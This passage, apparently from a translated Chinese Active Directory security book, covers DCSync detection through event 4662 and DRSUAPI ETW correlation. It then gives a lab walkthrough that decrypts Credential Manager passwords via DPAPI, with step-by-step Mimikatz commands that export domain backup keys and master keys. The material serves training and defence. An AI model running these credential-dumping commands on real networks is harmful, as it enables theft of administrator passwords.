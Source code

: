 +   `89e95b76-444d-4c62-991a-0facbeda640c** (`DS-Replication-Get-Changes-In-Filtered-Set**)

+   `1131f6aa-9c07-11d1-f79f-00c04fc2dcd2** (`DS-Replication-Get-Changes**)

然后，我们需要检查**帐户名称**的值是否为域控制器。如果不是，那么我们可以可靠地检测到 DCSync。即使 DCSync 在域控制器本地运行，事件 ID 4662 仍会出现在日志中。

另外，鉴于 DCSync 使用 RPC 协议，可以通过基于 DRSUAPI 的 UUID 在端点上使用 ETW 进行检测。将`DSRUAPI UUID`（**e3514235-4b06-11d1-ab04-00c04fc2dcd2**）和`OpNum 3`（**IDL_DRSGetNCChanges**）关联起来，将是恶意活动的良好指示器[33]。

# 通过 DPAPI 以明文方式转储用户凭据

让我们通过一个场景来进行说明。在遵循内部安全政策并经过安全意识培训后，用户开始使用 Windows 中的凭据管理器，而不再使用`password.txt`文件。凭据管理器是 Windows 内置的密码管理器，使用**数据保护 API**（**DPAPI**）。DPAPI 允许程序（如 Chrome 或 RDP）透明地存储敏感数据。数据存储在用户目录中，并通过从用户密码派生的密钥进行加密。我们的目标用户`khal.drogo`在其凭据管理器中存储了 SQL **系统管理员**（**SA**）帐户的凭据。攻击者已经获得了该用户的域管理员权限，并打算以明文形式提取 SA 密码。存在三种攻击场景：

+   获取`khal.drogo`的主密钥并进行解密

+   如果您具有本地管理员权限，则提取所有本地主密钥

+   使用`Domain Admins`组中的帐户提取所有备份主密钥

出于演示目的，我们选择了第三个路径。所有命令都在`daenerys.targaryen`帐户下运行（该帐户是“域管理员”组的成员）。

成功提取密码所需的步骤如下：

1.  定位凭据文件。文件被隐藏，并位于以下路径：

    ```
    dir /a:h C:\Users\khal.drogo\AppData\Local\Microsoft\Credentials\*
    ```

1.  使用 Mimikatz 的`dpapi::cred`命令和凭据文件的路径查找`guidMasterKey`值：

    ```
    mimikatz.exe "dpapi::cred /in:C:\Users\khal.drogo\AppData\Local\Microsoft\Credentials\value_from_step_1"
    ```

1.  从域控制器提取备份主密钥：

    ```
    mimikatz.exe "lsadump::backupkeys /system:meereen.essos.local /export"
    ```

1.  获取用户`khal.drogo`的主密钥：

    ```
    mimikatz.exe "dpapi::masterkey /in:"C:\Users\khal.drogo\AppData\Roaming\Microsoft\Protect\{USER_SID}\guidMasterKey_from_step_2" /pvk:private_keyfile_from_step_3.pvk
    ```

1.  解密保存的凭据：

    ```
    mimikatz.exe "dpapi::cred /in: C:\Users\khal.drogo\AppData\Local\Microsoft\Credentials\value_from_step_1 /masterkey:key_value_from_step_4"
    ```

可以在以下截图中看到命令执行的结果：

